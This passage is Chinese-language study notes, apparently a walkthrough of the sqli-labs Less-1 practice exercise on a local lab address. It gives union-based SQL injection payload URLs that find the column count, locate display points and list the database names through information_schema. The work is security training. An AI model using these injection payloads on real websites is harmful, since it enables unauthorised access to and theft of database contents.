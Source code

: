 - 二分查找试出列出

  - 经实验列数为3

  - ```
    http://192.168.81.135/sqli/Less-1/?id=1' order by 3 --+
    ```

    

![image-20211210194656714](https://gitee.com/xxb667/img/raw/master/img/image-20211210194656714.png)

![image-20211210194809388](https://gitee.com/xxb667/img/raw/master/img/image-20211210194809388.png)

### 判断数据显示点

#### 注

ID一定要改为0或其他非正整数即可（x也可以）

```
http://192.168.81.135/sqli/Less-1/?id=0' union select 1,2,3 --+
```

![image-20211210195031504](https://gitee.com/xxb667/img/raw/master/img/image-20211210195031504.png)

### 注入字符后加sql注入基本语句

#### 查看当前数据库

```
http://192.168.81.135/sqli/Less-1/?id=0' union select 1,2,database() --+
```

![image-20211210195301761](https://gitee.com/xxb667/img/raw/master/img/image-20211210195301761.png)

#### 根据数字位置查看数据库

```
http://192.168.81.135/sqli/Less-1/?id=0' union select 1,2,schema_name from information_schema.schemata limit 0,1 --+
```

改变0的数字大小即可查看对应数据库中名字

![image-20211210195940179](https://gitee.com/xxb667/img/raw/master/img/image-20211210195940179.png)

![image-20211210200009304](https://gitee.com/xxb667/img/raw/master/img/image-20211210200009304.png)

#### 查看所有数据库

```
http://192.168.81.135/sqli/Less-1/?id=0' union select 1,2,group_concat(schema_name) from information_schema.schemata--+
```
